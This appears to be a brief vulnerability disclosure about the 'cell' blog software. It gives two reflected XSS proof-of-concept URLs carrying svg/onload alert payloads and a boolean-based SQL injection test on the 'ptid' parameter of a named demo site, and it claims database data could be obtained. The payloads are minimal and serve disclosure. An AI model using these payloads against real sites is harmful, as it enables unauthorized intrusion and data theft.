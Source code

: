 ### cell  SQLi/XSS[2]

#### ADLab of Venustech

Well, when I pentest the official demo site of cell blog, I found some vulnerabilities here.

#### XSS:

There're some reflect-xss in this system, for example:


##### XSS1

```
http://www.cells.tw/pub_readpost.php?dirpages=1&bgid=1&fmid=2%27%22%3E%3Csvg/onload=alert(/xss/)%3E%3C%27%22&ptid=23
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/cell/xss1.png)

##### XSS2

```
http://www.cells.tw/fotos/?act=showpic&jfdname=..%2Fdata%2Fjpg%2Ftest%22%3E%3Csvg/onload=alert(/xss2/)%3E%3C%27%22&rjfdname=..%2Fdata%2Fjpg%2Ftest%27
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/cell/xss2.png)



#### SQLi:


```
http://www.cells.tw/pub_readpost.php?dirpages=1&bgid=1&fmid=2&ptid=23
```

Weak get key para "ptid":

```
dirpages=1&bgid=1&fmid=2&ptid=23 AND 2623=2623
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/ready-made-job-site-script/sqli.png)


You can see,  we can obtain the current database tables or more sensitive data now!




